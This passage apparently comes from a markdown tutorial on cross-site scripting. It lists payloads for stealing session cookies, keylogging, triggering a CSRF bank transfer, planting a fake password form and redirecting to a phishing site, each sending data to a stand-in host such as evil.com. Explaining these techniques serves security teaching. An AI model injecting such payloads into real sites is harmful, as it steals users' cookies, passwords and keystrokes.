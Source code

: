 ### 5️⃣ Data Is Exfiltrated

* Attacker receives stolen data on their server:
  ```js
  fetch('https://evil.com/log?data=' + document.cookie)
  ```

---

## 🧪 Common Exploitation Techniques

### 🔐 1. Stealing Session Cookies

```js
<script>new Image().src='https://evil.com?c='+document.cookie</script>
```

### 🧑‍💻 2. Keylogging

```js
<script>
document.onkeypress = e => {
  fetch('https://evil.com/log?key=' + e.key)
}
</script>
```

### 🔁 3. CSRF Triggering

```js
<script>
fetch('https://bank.com/transfer?amount=1000&to=attacker', { credentials: 'include' })
</script>
```

### 🎭 4. Phishing via Fake Forms

```js
<script>
document.body.innerHTML = '<form action="https://evil.com/phish"><input name="password"></form>'
</script>
```

### 🧬 5. Browser Hijacking

* Redirect user to malicious site:
  ```js
  <script>location.href='https://phishing.com'</script>
  ```

---

## 🧰 Advanced Exploitation
